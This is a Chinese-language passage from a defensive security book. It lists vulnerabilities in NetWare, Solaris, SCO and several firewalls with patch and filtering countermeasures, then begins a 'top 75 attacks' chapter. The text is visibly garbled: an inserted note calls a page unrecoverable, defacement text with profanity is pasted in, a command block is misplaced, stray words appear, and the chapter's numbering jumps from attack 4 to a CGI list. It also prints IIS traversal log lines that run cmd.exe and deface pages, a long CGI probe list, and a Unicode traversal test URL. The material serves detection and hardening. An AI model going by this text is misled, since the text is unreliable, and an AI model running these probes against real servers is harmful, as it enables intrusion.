**简介：** 在获得管理员访问权限后，黑客按照几个简单的步骤安装后门。

**攻击状态：** 远程控制。

**漏洞：** NetWare NDS。

**对策：** 远程木马后门实施的对策在本书中有详细说明。总而言之，应用于 Novell NetWare，它们是：

- 1. 执行第3章中概述的必要技术发现对策。
- 2. 向用户普及各种社会工程学技术。
- 3. 追踪邮件头，并验证是否存在邮件轰炸和欺骗。
- 4. 配置边界有状态检测防火墙和/或访问路由器进行过滤。
- 5. 安装站点防火墙作为端口阻断器/监视器，以防御未授权的端口和服务。
- 6. 保存入口日志，并锁好存放它们的数据中心。
```


 + 7. 将 supervisory access 限制在少数受信任的管理员。

+ 8. 使用隐藏式键盘记录器，应由安全管理员进行监控。

## OS/2

此处描述的对策是针对常见的 OS/2 (www-4.ibm.com/software/os/warp) 隧道利用攻击。

### *Tunneling（隧道攻击）*

**简介：** 防御周边隧道攻击通过防火墙和/或代理发起。

**攻击状态：** 绕过安全边界进行未授权访问。

**漏洞：** 所有版本。

**对策：** 采用任何当前的有状态检测防火墙和/或代理来进行周边防御，将完全阻止此黑客攻击。

## SCO

### *System V 中的缓冲区溢出*

**简介：** 多个使用 System V 衍生 login 的应用程序存在缓冲区溢出。

**攻击状态：** 未授权 root 访问。

**漏洞：** 使用 System V 衍生 login 的系统可能被入侵，包括获取 root 访问权限。这些系统包括 Sun Solaris 8 及更早版本；HP-UX、IBM AIX 4.3 及更早版本以及 5.1；SCO 5.0.6a 及更早版本；以及 SGI IRIX 3.x 版本。

**入侵方式：** 由于 System V 允许在登录过程中传递参数，因此需要创建缓冲区来保存这些参数。在验证过程中，由于验证错误，检查接受的参数数量时可能发生缓冲区溢出。其他调用 login 的程序可能具有比当前用户更高的访问权限。在这种情况下，攻击者可能获得该程序的访问权限。例如，如果 telnetd 或 rlogind 调用 login，用户可以获得 root 访问权限。通过这种方式，远程攻击者可以使用 in.telnetd 和 in.rlogind 获得 root 访问权限。

**对策：** 许多供应商都有可以应用的补丁来解决此漏洞，因此请先咨询他们。如果补丁不存在或无法应用，另一种选择是禁用不需要的服务。如果无法禁用服务，可以使用防火墙（或支持端口过滤的路由器）阻止端口。这不会禁用服务；它会阻止流量访问该服务。阻止 telnet 的端口 23 和 rlogin 的端口 513。

此处针对的是常见的 SCO (www.sco.com) 漏洞：POP root 可访问性。

### POP Root 可访问性

**简介：** SCOPOP 服务器存在 POP 远程 root 安全漏洞。

**攻击状态：** 未授权访问。

**漏洞：** SCO OpenServer 5x。

**对策：** 许多针对此类攻击的补丁已经可用。请访问 SCO 的安全页面 www.sco.com/security。

### Solaris

本节介绍针对常用于 Solaris (www.sun.com/solaris) 的 root 可访问性漏洞利用的对策。

### CDE 漏洞

**简介：** Solaris 通用桌面环境 (CDE) 子进程控制服务存在缓冲区溢出漏洞。

**攻击状态：** 未授权 root 访问，执行任意代码。

**漏洞：** CDE 是 Linux 和 UNIX 的图形用户界面，使用网络守护进程 dtspcd。修改后的数据包可能导致缓冲区溢出，使攻击者能够以 root 权限执行任意代码。

**入侵方式：** 通过 inetd 或 xinetd 的 CDE 客户端请求可以生成 dtspcd 守护进程。网络守护进程 dtspcd 通常使用 TCP 端口 6112 并以 root 权限运行，是 CDE 子进程控制服务，处理来自客户端的远程启动应用程序请求。dtspcd 使用的共享库可能在客户端协商过程中发生缓冲区溢出。与许多缓冲区溢出情况一样，攻击者可以运行具有 root 权限的恶意代码。当修改后的数据包被发送到固定的 4K 缓冲区并指定大于 4K 的值时，就会发生溢出，导致 4K 缓冲区末尾的内存被覆盖。

**对策：** 通常建议禁用所有不需要的服务。但是，了解这将对您的环境产生什么整体影响很重要。因此可以禁用端口 6112。但是，端口 6112 被一些互联网游戏使用，这可能需要考虑。

一些制造商已发布针对此漏洞的补丁。请查看制造商的网站以确定是否有可用的补丁。

由于 dtspcd 在某些系统上默认启用，如果没有可用的补丁，经过仔细考虑确定不需要后，需要显式拒绝或禁用 dtspcd。这可以通过使用防火墙产品阻止端口或禁用服务来实现。可以通过注释掉启用服务的行来禁用该服务。

您可以通过查看以下内容之一来确定 dtspcd 是否已启用。

```
/etc/services
dtspc 6112/tcp
```

或

```
/etc/inetd.conf
dtspc stream tcp nowait root /usr/dt/bin/dtspcd /usr/dt/bin/dtspcd
```

### inlpd 打印守护进程中的缓冲区溢出

**简介：** Sun Solaris 的 in.lpd 打印守护进程存在缓冲区溢出，可能导致未授权 root 访问和系统停止。

**攻击状态：** 系统停止，未授权 root 访问，执行任意代码。

**漏洞：** 以下系统易受 in.lpd 打印守护进程缓冲区溢出漏洞的影响。

- Solaris 2.6 x86
- Solaris 2.6 for SPARC
- Solaris 7 x86
- Solaris 7 for SPARC
- Solaris 8 x86
- Solaris 8 for SPARC

**入侵方式：** in.lpd 守护进程监听 TCP 端口 515 上的远程打印请求。如果远程攻击者同时发送大量作业，可能会发生缓冲区溢出情况，允许执行任意代码或停止守护进程。

**对策：** Sun 已发布以下补丁。

| 操作系统版本 | 补丁 ID |
|------------|----------|
| SunOS 5.8 | 109320-04 |
| SunOS 5.8_x86 | 109321-04 |
| SunOS 5.7 | 107115-09 |
| SunOS 5.7_x86 | 107116-09 |
| SunOS 5.6 | 106235-09 |
| SunOS 5.6_x86 | 106236-09 |

如果无法应用适当的补丁，请在不需要时禁用该服务。如果禁用服务不可行，可以使用防火墙（或支持端口过滤的路由器）阻止端口。这不会禁用服务；它会阻止流量访问该服务。阻止所有用户的 TCP 端口 515，除了需要访问的用户。

## Yppasswd 缓冲区溢出

**简介：** SPARC 缓冲区溢出漏洞可能导致 root 访问。

**攻击状态：** 未授权 root 访问，拒绝服务 (DoS)。

**漏洞：** Solaris 2.6、2.7 和 2.8 系统上存在 yppasswd 缓冲区溢出漏洞。

**对策：** 如果不需要 rpc.yppasswd 服务，请通过注释掉 /usr/lib/netsvc/yp/ypstart 文件中的相应行来禁用它。如果需要该服务，请使用防火墙（或支持过滤的路由器）只允许需要访问的用户访问，并阻止所有其他访问。请查看 Sun Microsystems 网站以获取针对此漏洞的补丁。

## sadmind/IIS 蠕虫

**简介：** Sadmind/IIS 蠕虫可能导致 Windows 系统上的未授权访问和 Solaris 系统上的未授权 root 访问。

**攻击状态：** 未授权访问，未授权 root 访问，执行任意代码，修改 WEB 内容。

**漏洞：** 该蠕虫利用 Solstice sadmind 程序的缓冲区溢出漏洞感染 Solaris 系统，随后尝试感染运行 IIS 的 Microsoft 系统。

**入侵方式：** 成功感染 Solaris 系统后，蠕虫会使 Solaris 系统主动尝试感染其他 Solaris 系统，并攻击运行 IIS 的 Microsoft 系统。受感染的 Solaris 系统可能在 syslog 中包含类似于以下内容的信息。

```
May 15 00:30:01 carrier.example.com inetd[139]: /usr/sbin/sadmind: Bus Error - core dumped
May 15 00:30:01 carrier.example.com last message repeated 1 time
May 15 00:30:03 carrier.example.com last message repeated 1 time
May 15 00:30:06 carrier.example.com inetd[139]: /usr/sbin/sadmind: Segmentation Fault - core dumped
May 15 00:30:03 carrier.example.com last message repeated 1 time
May 15 00:30:06 carrier.example.com inetd[139]: /usr/sbin/sadmind: Segmentation Fault - core dumped
May 15 00:30:08 carrier.example.com inetd[139]: /usr/sbin/sadmind: Hangup
May 15 00:30:08 carrier.example.com last message repeated 1 time
May  7 02:44:14 carrier.example.com inetd[139]: /usr/sbin/sadmind: Killed
```

Solaris 还可能正在监听 TCP 端口 600，运行相关脚本进程，并将具有以下目录。

```
/dev/cub
/dev/cuc
```

成功入侵的 Windows 系统可能包含类似于以下内容的日志条目。

```
2002-02-06 12:30:10 10.0.0.0 - 10.10.10.10 80 GET /scripts/../../winnt/system32/cmd.exe /c+dir 200 -
2002-02-06 12:30:10 10.0.0.0 - 10.10.10.10 80 GET /scripts/../../winnt/system32/cmd.exe /c+dir+..\ 200 -
2002-02-06 12:30:10 10.0.0.0 - 10.10.10.10 80 GET /scripts/../../winnt/system32/cmd.exe /c+copy+\winnt\system32\cmd.exe+root.exe 502 -
2002-02-06 12:30:10 10.0.0.0 - 10.10.10.10 80 GET /scripts/root.exe /c+echo+<HTML code inserted here>../index.asp 502 -
```

受感染 Windows 机器的网页将包含以下网页。[错误：连贯性丢失 — 原始第433页不可恢复的片段；文档剩余部分无法从噪声/自动处理伪影中区分。所有先前内容根据可见源文本重建。]


去他*的美国政府

去他*的PoizonBOx

联系:sysadmcn@yahoo.com.cn

**对策：** Sun和Microsoft均已发布针对此漏洞的补丁。

使用最新的反病毒程序扫描系统。如果系统未被感染，请为操作系统/IIS应用适当的补丁。

如果您认为某台机器已被感染，请使用最新的反病毒程序扫描系统中的受感染文件并将其删除。同时扫描系统中可能在此类攻击之后被应用的其他潜在恶意代码。

通常情况下，通过采用可靠的过滤程序可以限制（不一定能避免）该漏洞的影响。使用防火墙（或支持端口过滤的路由器）来阻止对系统的不必要和不需要的访问。

## **Carko**

**概要：** 分布式拒绝服务（DDoS）工具Carko可能导致远程拒绝服务攻击和机密性泄露。

**攻击状态：** 拒绝服务（DoS）、远程拒绝服务、配置控制、机密性泄露

**漏洞：** Carko是一种DDoS工具，可用于对其他系统发起DoS攻击。

**入侵：** 攻击者可以利用受影响主机（Solaris 2.6、2.7和2.8系统）上的snmpXdmid漏洞来安装Carko。安装后，攻击者可能能够使用安装了Carko的系统对其他系统发起远程拒绝服务攻击。此类攻击不仅可能导致被攻击系统出现DoS状况，而且还可能导致用于攻击的系统上的服务因资源被用于执行攻击而不可用。此外，系统上的配置和其他文件可能会被更改和/或公开暴露。

**对策：** 确保补丁是最新的，包括任何针对snmpXdmid漏洞的补丁。

## **snmpXdmid的利用**

**概要：** snmpXdmid中的缓冲区溢出漏洞可能导致未经授权的root访问

**攻击状态：** 未经授权的root访问、拒绝服务（DoS）。

**漏洞：** 运行Solaris 2.6、2.7和2.8且已安装并启用snmpXdmi的系统（默认条件）容易受到缓冲区溢出条件的影响。snmpXdmi是一个映射守护进程，可将SNMP事件转换为桌面管理接口（DMI），并将DMI转换为SNMP。

**入侵：** 该漏洞存在于从DMI指示到SNMP事件的转换过程中。远程攻击者可以精心编写代码来利用此漏洞，并以dmid进程的权限（通常是root）执行任意代码。

**对策：** Sun已发布补丁来解决此漏洞。请为适当的系统应用该补丁。

如果不需要snmpXdmi进程，请将其禁用并卸载。还建议尽可能禁用所有不需要的服务。如果该服务仅在内部需要，请确保只向需要的人授予访问权限。其他访问应在防火墙（或支持TCP过滤的路由器）处阻止，以便外部设备（包括潜在攻击者）无法获得访问权限。如果启用了该服务且未应用补丁，您仍将容易受到内部攻击。

## 代理和防火墙

BorderWare、FireWall-1、Gauntlet、NetScreen、PIX、Raptor和WinGate是本节周边防御机制涵盖的产品。

### BorderWare

常见的BorderWare（www.borderware.com）利用方式是隧道技术。

#### *隧道技术*

**概要：** 使用隐秘扫描和/或半握手ping（hping）技术，远程攻击者可以检测到ACK隧道守护软件。

**攻击状态：** 对目标系统的未经授权远程控制。

**漏洞：** 所有版本，取决于配置。

**入侵：** 如前几章所述，TCP在IP之上建立虚拟连接。当发送方转发SYN且接收方以SYN/ACK响应时，会话即建立。常见的包过滤防火墙假设会话总是以SYN段开始。因此，它们对所有SYN段应用其策略。通常，制造商开发防火墙以将这些规则应用于SYN而非ACK，因为标准会话可以包含数千或数百万个ACK段，而只包含一个SYN。这降低了防火墙的整体工作负载，并有助于降低庞大服务器需求的成本。在这种情况下，隧道是远程攻击的首选入侵方式。通过一些社会工程学和垃圾邮件，攻击者根据检测到的目标防火墙配置安装自定义隧道，例如*Tunnel.c*（来自《Hack Attacks Revealed》）。

**对策：** 6.1x版本采用锁定功能，结合包过滤、电路级网关和应用级网关，以确保对所有入站和出站流量的完全控制。本地策略应规定相同的增强技术，以应对发现防御、本地数据中心锁定和有限的管理员访问。

### FireWall-1

此处描述的对策针对常见的FireWall-1（www.checkpoint.com）利用方式，该方式导致完全拒绝服务。

#### RDP绕过漏洞

**概要：** Checkpoint RDP绕过漏洞可能导致拒绝服务（DoS）和任意代码执行。

**攻击状态：** 拒绝服务（DoS）、任意代码执行。

**漏洞：** Checkpoint VPN-1和Firewall-1版本4.0和4.1可能允许远程攻击者绕过防火墙。

**入侵：** 通过精心制作RDP头并将其添加到正常UDP流量中，远程攻击者可以通过259端口将任何内容穿过防火墙，这可能允许执行任意代码。攻击者可能能够控制防火墙后面的系统，或者可能利用该漏洞来利用可能在259端口上被动侦听的系统。

**对策：** Checkpoint已发布针对此漏洞的补丁。此外，还可以使用路由器来阻止259端口，直到可以应用补丁为止。

#### 完全DoS攻击

**概要：** 当防火墙检测到来自不同MAC地址但具有与其相同IP地址的数据包时，防火墙崩溃。

**攻击状态：** 系统崩溃。

**漏洞：** 版本3x、4x。

```
$ fw ctl debug -buf
```

**入侵：** 当防火墙检测到来自不同MAC地址但具有与其相同IP地址的数据包时，防火墙崩溃。使用lore编写的Checkout.c（来自《Hack Attacks Revealed, Second Edition》），该程序只需向目标防火墙接口发送几个伪造的UDP数据包。

**对策：** 作为此攻击的解决方法，请至少升级到4.1版本并安装SP1。为缓解CPU拥塞，CheckPoint建议禁用FW-1内核日志记录。在防火墙的命令行上，以root身份键入：

或者，确保操作系统具有最新的补丁，以防止欺骗和碎片攻击。此外，当检测到欺骗和/或碎片攻击时，请务必在路由器处阻止源地址。

### Gauntlet

本节介绍针对以下常见Gauntlet（www.pgp.com/asp_set/products/tns/gauntlet.asp）利用方式的对策：otherwise：拒绝服务和缓冲区溢出。

#### 执行任意代码

**概要：** 特定Gauntlet产品上的缓冲区溢出可能导致特权访问。

**攻击状态：** 特权访问、任意代码执行、后续系统入侵。

**漏洞：** 适用于*NIX的Gauntlet版本5.x、PGP e-appliance 300系列版本1.0以及McAfee e-appliance 100和120系列使用smap/smapd守护进程。

适用于*NIX的Gauntlet版本6.0、PGP e-appliance 300系列版本1.5和2.0、PGP e-appliance 1000系列版本1.5和2.0以及适用于Solaris的McAfee WebShield v4.1使用CSMAP守护进程。

在所有情况下，守护进程负责处理入站和出站电子邮件事务。缓冲区溢出条件可能导致远程攻击者能够以守护进程的权限运行任意代码。

**入侵：** 远程攻击者可以利用smap/smapd和CSMAP缓冲区溢出条件，允许执行任意代码。此外，防火墙通常与其他设备存在信任关系，一旦防火墙被入侵，远程攻击者可能会利用这些关系。


 **对策：** PGP Security (Gauntlet) 已针对受影响的模式发布了补丁。请为受影响的系统应用相应的补丁。

### 拒绝服务攻击

**概要：** 此漏洞使远程攻击者能够锁定防火墙。

**攻击状态：** 系统崩溃。

**漏洞：** 5.5 及更早版本。

**漏洞详情：** 如果攻击者知道将通过 Gauntlet 防火墙路由的 IP 地址，他或她可以远程锁定防火墙，使得一个数据包就能使 Sparcs 停止运行，三到五个数据包就能使 BSDI 上的 Ctrl-Alt-Del 失效。

**对策：** 补丁已经发布，但建议升级到 5.5 或更高版本，以缓解更多有害问题。

## 基于缓冲区溢出的任意代码执行

**概要：** 此 Gauntlet 漏洞使远程攻击者能够导致防火墙执行任意代码。

**攻击状态：** 未授权代码执行。

**漏洞：** 版本 4.1、4.2、5.0 和 5.5，取决于配置。

**漏洞详情：** Network Associates 的 Gauntlet 防火墙版本 4.1、4.2、5.0 和 5.5 中集成的 Mattel 的 Cyber Patrol 软件存在缓冲区溢出。由于 Cyber Patrol 的集成方式，引入了一个漏洞，可能允许远程攻击者在防火墙上获得 root 权限或执行任意命令。默认情况下，Cyber Patrol 安装在 Gauntlet 上，并运行 30 天。之后，它将被禁用。在这 30 天内，防火墙容易受到攻击。由于过滤软件可以从外部访问，不在内部网络上的用户也可能利用此漏洞。

**对策：** 除 4.1 版本外，所有受影响版本均有补丁可用。详情请访问 www.pgp.com/jump/gauntlet_advisory.asp。

## NetScreen

此处描述的漏洞是对 NetScreen (www.netscreen.com) 防火墙的拒绝服务泛洪攻击。

### 拒绝服务泛洪攻击

**概要：** 此漏洞使远程攻击者能够通过 UDP 数据包泛洪来锁定防火墙。

**攻击状态：** 严重拥塞。

**漏洞：** NetScreen 版本 5、10 和 100，取决于配置。

**对策：** 截至目前，尚未发布补丁；但作为一种变通方法，您可以完全阻止 UDP。

## PIX

当前最新的 PIX 漏洞与 PIX 防火墙维护连接状态路由表的方式有关。基本上，远程攻击者可以对 PIX 的 DMZ 区域发起拒绝服务攻击，从而使黑客能够重置整个路由表，这有效地阻止了所有内部接口到外部接口的通信，反之亦然。作为对策，Cisco 为所有受影响的客户提供免费软件升级，以修复此漏洞及其他漏洞。有合同的客户可以通过其常规更新渠道或从软件中心 www.cisco.com 获取升级后的软件。

## Raptor

此处给出的对策针对的是 Raptor (www.axent.com/raptorfirewall) 上常见的拒绝服务攻击。

### 拒绝服务攻击

**概要：** 此漏洞允许远程攻击者通过拒绝服务攻击锁定防火墙。

**攻击状态：** 系统崩溃。

**漏洞：** Raptor 6x，取决于配置。

**漏洞详情：** *raptor.c* 拒绝服务攻击（来自 *Hack Attacks Revealed, Second Edition*）是指在 IP 数据包中使用非编程的 IP 选项并发送给防火墙。防火墙无法处理这个未知的 IP 选项，导致其停止响应。

**对策：** 重启防火墙服务，并在筛选路由器上阻止所有带有 IP 选项的流量。应用 Axent 的补丁，可从 ftp://ftp.raptor.com/patches/V6.0/6.02Patch 获取。

*许多此类攻击的漏洞利用在 *Hack Attacks Revealed Second Edition* 中有详细描述和编码，可在 TigerTools.net 找到。*

## WinGate

此处描述的漏洞是对 WinGate (www.wingate.net) 防火墙的拒绝服务攻击。

### 拒绝服务攻击

**概要：** 拒绝服务攻击使远程黑客能够锁定防火墙。

**攻击状态：** 系统崩溃。

**漏洞：** 所有版本。

**对策：** 截至目前，尚未发布补丁；但作为一种变通方法，您可以实施配套的周边防御防火墙工具，如 Network ICE 的 BlackICE。

### 结论

第一阶段讨论了与知名和隐藏端口及服务相关的 tiger 技术；第二阶段描述了关键防御机制；第三阶段详细介绍了针对 *Hack Attacks Revealed, Second Edition* 中介绍的周边硬件和服务守护进程漏洞利用的对策。

## 75 大黑客攻击

本章汇编了影响通用计算、互联网以及 Windows、*NIX、OS/2、MAC 和 Linux 操作系统的 75 大攻击。除了前 20 个主要基于系统管理网络与安全 (SANS) 的"二十大关键互联网安全漏洞"外，其余 55 个没有特定顺序，来源包括 SANS (www.sans.org)、计算机应急响应小组 (CERT; www.cert.org)、安全管理员集成网络工具 (SAINT) 公司、计算机事件咨询 (CIAC)、X-Force Alert、Microsoft 安全公告 (www.microsoft.com/technet/security)、国家基础设施保护中心 (NIPC) 监视与预警部门 (www.nipc.gov) 以及 Red Hat 网络警报 (www.redhat.com/network)。

## 注释

需要注意的是，本章列出的漏洞并未按严重性排序，原因很简单，根据您的系统类型和活动服务，某个漏洞对您的特定环境可能比其他漏洞更具破坏性。75 大黑客攻击按以下四个类别定义：漏洞、受影响系统、漏洞检测和对策，具体如下：

- **漏洞。** 呈现漏洞类型和损害状态的概要。

- **受影响系统。** 列出已知的可能容易受到黑客攻击的系统、服务或环境。

- **漏洞检测。** 列出相关黑客攻击的实际漏洞利用、漏洞类型详情、损害状态和/或发现步骤。

- **对策。** 列出缓解漏洞的一般建议。

### 黑客攻击 1：默认安装

**漏洞。** 操作系统和服务应用程序使用默认设置进行安装并不奇怪。这样做的原因是使安装过程快速简便，避免安装过程中潜在的问题和古怪情况。也就是说，默认安装可能使系统完全敞开，许多端口和任何相关端口都应被阻止或过滤，这也就不足为奇了。

### 黑客攻击 2：弱密码

**漏洞。** 某些系统和应用程序默认包含没有密码或需要密码输入但没有严格规定或准则的账户。

**受影响系统。** 大多数操作系统和服务应用程序都容易受到此类攻击。

**漏洞检测。** 当输入密码时，计算机的身份验证内核会对其进行加密，将其转换为字符串，然后对照列表进行检查，这基本上是存储在计算机中的密码文件。如果身份验证模块找到相同的字符串，则允许访问系统。想要闯入系统并获得特定访问权限的攻击者通常会针对此密码文件。根据配置，如果达到特定访问级别，他们可以带走该文件的副本，然后运行密码破解程序将这些字符还原为原始密码！

**对策。** 尽管采取针对密码破解的保护措施相对简单，但这是最容易被忽视的针对此类攻击的防御措施之一。它需要采取必要步骤来加强周边防御安全（使用本书和/或其他书籍中学到的技术），然后继续实施屏幕保护程序和程序密码保护，以及操作系统和文件防御（例如，密码隐藏和 DES、Blowfish 等加密）。您可以通过使用 L0phtCrack (www.l0pht.com) 等破解工具来确保账户上使用的密码不会轻易被入侵者猜到或破解。定期审计密码文件有助于发现弱密码——请记住，您的系统安全性取决于其最薄弱的环节。像 L0phtCrack 这样的密码破解工具随处可得且易于使用。

显然，首先也是最重要的是，我们需要实施牢不可破的加密机制。有优秀的免费软件、共享软件和商业产品可用于加密文件内容或电子邮件消息。要找到适合您的产品，请从任何流行的搜索引擎开始搜索，如 Yahoo (www.yahoo.com)、Lycos (www.lycos.com)、Google (www.google.com)、Northern Light (www.northernlight.com)，和/或查看软件中心，包括 TuCows (www.tucows.com) 和 C|Net (download.cnet.com)。密码破解防御的第二部分是使用您自己的 tiger 密码方案，它有一个重要规则：切勿在整个登录名或密码中使用*真实*单词，或将其作为登录名或密码的一部分。相反，使用混合大小写字符（大写和小写），与数字和特殊字符混合，具体取决于支持的字符。下一个经验法则是每个登录名和密码使用八个或更多字符。一个好的组合可能是 登录名：J16vNj30，密码：dg101Ko5。

### 黑客攻击 3：缺少或糟糕的系统备份

**漏洞。** 在不幸的系统入侵事件后，很多时候需要从最近的备份中恢复系统。不幸的是，太多网络和家庭用户未能遵守良好的备份/恢复计划。


 **受影响系统。** 大多数操作系统和服务应用程序都容易受到此类攻击。

**入侵检测。** 根据 SANS 的说法，必须清点所有关键系统，并验证以下事项：

- 这些系统是否有备份流程？
- 备份间隔是否可以接受？
- 这些系统是否按照流程进行了备份？
- 备份介质是否经过验证，以确保数据被准确备份？
- 备份介质是否在本地和异地存储中得到了妥善保护？
- 操作系统和任何恢复工具的副本是否存储在异地（包括必要的许可证密钥）？
- 恢复流程是否已经过验证和测试？

**应对措施。** 遵循上述要点，并立即执行严格的备份计划。最低限度下，你可以使用操作系统命令备份文件，或者购买专用备份工具作为硬件或软件解决方案。

## 黑客攻击 4：开放端口过多

**漏洞。** 一台计算机上有 65,535 个端口。攻击者可以利用探测、初步“踩点”或信息收集来检测哪些端口处于活动状态并正在监听请求；这有助于制定计划，从而成功实施黑客攻击。目标端口扫描通常是该探测过程中的第二个主要步骤。

**受影响系统。** 大多数操作系统和服务应用程序都容易受到此类攻击。

**入侵检测。** 使用优秀的端口扫描器（如 Nmap）或本书随附 CD 中的扫描器，来确定系统上哪些端口是开放的。请记住扫描整个范围内的 TCP 和 UDP 端口：1–65,535。根据 SANS 的说法，常见的易受攻击端口包括：

- **登录服务：** telnet (23/tcp)、SSH (22/tcp)、FTP (21/tcp)、NetBIOS (139/tcp)、rlogin 等（512/tcp 至 514/tcp）
- **RPC 和 NFS：** Portmap/rpcbind (111/tcp 和 111/udp)、NFS (2049/tcp 和 2049/udp)、lockd (4045/tcp 和 4045/udp)
- **Windows NT 中的 NetBIOS：** 135（tcp 和 udp）、137（udp）、138（udp）、139（tcp）。Windows 2000——上述端口，另加 445（tcp 和 udp）
- **X Windows：** 6000/tcp 至 6255/tcp
- **命名服务：** 对非 DNS 服务器的所有机器开放的 DNS (53/udp)；DNS 区域传输 (53/tcp)，但来自外部辅助服务器的除外；LDAP (389/tcp 和 389/udp)
- **邮件：** 对非外部邮件中继的所有机器开放的 SMTP (25/tcp)、POP (109/tcp 和 110/tcp)、IMAP (143/tcp)
- **Web：** 除外部 Web 服务器外，开放的 HTTP (80/tcp) 和 SSL (443/tcp)。你还应屏蔽常见的高位 HTTP 端口选择（8000/tcp、8080/tcp、8888/tcp 等）
- **小型服务：** 20/tcp 和 20/udp 以下的端口，time (37/tcp 和 37/udp)
- **杂项：** TFTP (69/udp)、finger (79/tcp)、NNTP (119/tcp)、NTP (123/udp)、LPD (515/tcp)、syslog (514/udp)、SNMP (161/tcp 和 161/udp、162/tcp 和 162/udp)、BGP (179/tcp)、SOCKS (1080/tcp)
- **ICMP：** 阻止传入的回显请求（PING 和 Windows traceroute）；阻止传出的回显应答、超时和目的不可达消息，但“数据包过大”消息（type 3, code 4）除外。（此项假设你愿意放弃 ICMP 回显请求的合法用途，以阻止一些已知的恶意用途。）

**应对措施。** 要在 *NIX 中禁用多余端口，只需编辑 /etc/inetd.conf 文件并注释掉收敛标准。


 ```
GET /pw/storemgr.pw HTTP/1.0 & vbCrLf & vbCrLf
GET /iissamples/iissamples/query.asp HTTP/1.0 & vbCrLf & vbCrLf
GET /iissamples/exair/search/advsearch.asp HTTP/1.0 & vbCrLf & vbCrLf
GET /iisadmpwd/aexp2.htr HTTP/1.0 & vbCrLf & vbCrLf
GET /adsamples/config/site.csc HTTP/1.0 & vbCrLf & vbCrLf
GET /doc HTTP/1.0 & vbCrLf & vbCrLf
GET /.html/../config.sys HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/add_ftp.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/architext_query.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/w3-msql/ HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/bigconf.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/get32.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/alibaba.pl HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/tst.bat HTTP/1.0 & vbCrLf & vbCrLf
GET /status HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/search.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/samples/search/webhits.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /aux HTTP/1.0 & vbCrLf & vbCrLf
GET /com1 HTTP/1.0 & vbCrLf & vbCrLf丝的
GET /com2 HTTP/1.0 & vbCrLf & vbCrLf
GET /com3 HTTP/1.0 & vbCrLf & vbCrLf
GET /lpt HTTP/1.0 & vbCrLf & vbCrLf
GET /con HTTP/1.0 & vbCrLf & vbCrLf
GET /ss.cfg HTTP/1.0 & vbCrLf & vbCrLf
GET /ncl_items.html HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/submit.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /adminlogin?RCpage/sysadmin/index.stm HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/srchadm/admin.idq HTTP/1.0 & vbCrLf & vbCrLf
GET /samples/search/webhits.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /secure/.htaccess HTTP/1.0 & vbCrLf & vbCrLf
GET /secure/.wwwacl HTTP/1.0 & vbCrLf & vbCrLf
GET /adsamples/config/site.csc HTTP/1.0 & vbCrLf & vbCrLf
GET /officescan/cgi/jdkRqNotify.exe HTTP/1.0 & vbCrLf & vbCrLf
```

```
GET /ASPSamp/AdvWorks/equipment/catalog_type.asp HTTP/1.0 & vbCrLf & vbCrLf
```

```
GET /AdvWorks/equipment/catalog_type.asp HTTP/1.0 & vbCrLf & vbCrLf
```

```
GET /tools/newdsn.exe HTTP/1.0 & vbCrLf & vbCrLf
```

```
GET /scripts/iisadmin/ism.dll HTTP/1.0 & vbCrLf & vbCrLf
```

```
GET /scripts/uploadn.asp HTTP/1.0 & vbCrLf & vbCrLf
```

**对策。** SANS 针对 CGI 程序的安全性提出以下指导原则：

- 从生产 Web 服务器中移除所有示例 CGI 程序。
- 审计剩余的 CGI 脚本，并从所有 Web 服务器中移除不安全的 CGI 脚本。
- 确保所有 CGI 程序员严格遵守 CGI 程序中的输入缓冲区长度检查政策。
- 为无法移除的已知漏洞应用补丁。
- 确保 CGI bin 目录不包含任何编译器或解释器。
- 从 cgi-bin 目录中移除 "view-source" 脚本。
- 不要使用管理员或 root 权限运行 Web 服务器。大多数 Web 服务器可以配置为使用权限较低的账户（如 "nobody"）运行。
- 在不需要 CGI 支持的 Web 服务器上不要配置 CGI 支持。

## **黑客攻击 8：Web 服务器目录列表和文件执行**

**漏洞。** 通过向 IIS 服务器发送包含无效 Unicode UTF-8 序列的 URL，攻击者可以强制服务器实际列出目录，有时甚至执行任意脚本。

**受影响系统。** 未安装 Service Pack 2 的 Microsoft Windows NT 4.0（带 IIS 4.0）和 Windows 2000 Server（带 IIS 5.0）。

**入侵检测。** 运行 hfnetchk（一种用于验证一个或多个系统补丁级别的工具），或者尝试对您的 IIS Web 服务器输入以下 URL：http://IPAddress/scripts/..%c0%af../winnt/system32/cmd.exe?/c+dir+c:\。

**对策。** 务必在以下网址实施 Microsoft 的最新补丁：www.microsoft.com/technet/security/bulletin/MS00-078.asp。

## 黑客攻击 9：ISAPI 缓冲区溢出

**漏洞。** 运行 IIS 的系统上 idq.dll 的缓冲区溢出可能导致系统完全被攻陷。

**受影响系统。** 运行 IIS 的 Windows NT4.0、2000、2000 Server、2000 Advanced Server、2000 DataCenter Server 和 Windows XP beta。

**入侵检测。** idq.dll 中处理输入 URL 的部分代码（属于 IIS 索引服务的一部分）包含一个未检查的缓冲区，导致可能发生缓冲区溢出。此漏洞影响运行 IIS 的 Windows NT4.0、2000、2000 Server、2000 Advanced Server、2000 DataCenter Server 和 Windows XP beta。远程攻击者无需该服务正在运行即可利用此漏洞。因此，远程攻击者可以利用 idq.dll 中存在的漏洞导致缓冲区溢出，即使该服务未激活，也允许执行任意代码。由于 idq.dll 在系统上下文中运行，攻击者可以获得管理员权限。如果已建立其他信任关系，攻击者还可能危害其他系统。

**对策。** 为相应平台应用适当的 Microsoft 补丁。如果不需要该服务，请禁用和/或卸载该服务。由于需要在 TCP 端口 80 上建立初始连接，阻止所有不需要访问的用户使用该端口有助于降低风险。在所有不需要运行 IIS 的系统上禁用/卸载 IIS 服务。

## 黑客攻击 10：Microsoft 远程数据服务 (RDS) 漏洞利用

